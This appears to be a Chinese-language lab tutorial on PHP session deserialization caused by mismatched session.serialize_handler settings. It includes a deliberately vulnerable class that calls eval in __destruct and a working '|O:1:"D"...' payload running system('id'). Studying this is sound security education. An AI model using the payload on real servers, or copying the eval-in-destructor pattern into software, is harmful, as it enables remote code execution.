

---
tags:
  - PHP
  - serialize
  - session
Date: 2026-01-31
---
当session_start()被调用或者php.ini中session.auto_start为1时
PHP内部调用会话管理器，访问用户session被序列化以后，存储到指定目录（默认为/tmp）。
存取数据的格式有多种，常用的有三种

### 漏洞产生原因
写入格式和读取格式不一样


在网页提交字符串后，查看tmp文件夹


产生了对应的session文件，其格式是键名|键值，也就是第一种php的存储格式

如果使用serialize的格式进行存储也需要handler声明
```php
<?php  
highlight_file(__FILE__);  
error_reporting(0);  
ini_set('session.serialize_handler','php_serialize');  
session_start();  
$_SESSION['benben'] = $_GET['ben'];  
$_SESSION['b'] = $_GET['b'];  
?>
```


此时就以反序列化`a`数组形式展现

同样的，binary格式也需要声明
```php
<?php  
highlight_file(__FILE__);  
error_reporting(0);  
ini_set('session.serialize_handler','php_binary');  
session_start();  
$_SESSION['benben'] = $_GET['ben'];  
$_SESSION['b'] = $_GET['b'];  
?>
```


将得到的sess放进winhex查看二进制形式，可以看到键名前面有表示长度(06--benben/01--b)的标识

### 漏洞的产生
1.储存部分
使用serialize的格式存储
```php
<?php  
highlight_file(__FILE__);  
error_reporting(0);  
ini_set('session.serialize_handler','php_serialize');  
session_start();  
$_SESSION['ben'] = $_GET['a'];  
?>
```

2.漏洞页面
使用php的形式读取
```php
<?php   
highlight_file(__FILE__);  
error_reporting(0);  
  
ini_set('session.serialize_handler','php');  
session_start();  
  
class D{  
    var $a;  
    function __destruct(){  
        eval($this->a);  
    }  
}  
?>
```

### 分析
漏洞触发，只要有一个类为D并且有一个属性a，a的值就会执行eval

### 触发
首先实例化一个D对象，并且给a赋值命令
之后反序列化字符串
```php
O:1:"D":1:{s:1:"a";s:13:"system('id');";}
```
在接收sess的页面提交

此时，会以序列化数组的形式存储
为了能在php格式读取到序列化字符串，因此提交的时候要对应php_session的格式，在前面加上|

```php
|O:1:"D":1:{s:1:"a";s:13:"system('id');";}
```

下面是提交后的sess
```php
root@44b7f2c349ec:/var/www/html/tmp# cat sess_cntr30saf7dgo4nrkf25b6rcb4

a:1:{s:3:"ben";s:42:"|O:1:"D":1:{s:1:"a";s:13:"system('id');";}";}
```
可以看到`a:1:{s:3:"ben";s:42:"`和`O:1:"D":1:{s:1:"a";s:13:"system('id');";}`
最后的`":}`也就被注释了
被`|`分割，当php格式读取的时候，键值就是后者，刚好就是序列化字符串，然后进行反序列化执行漏洞

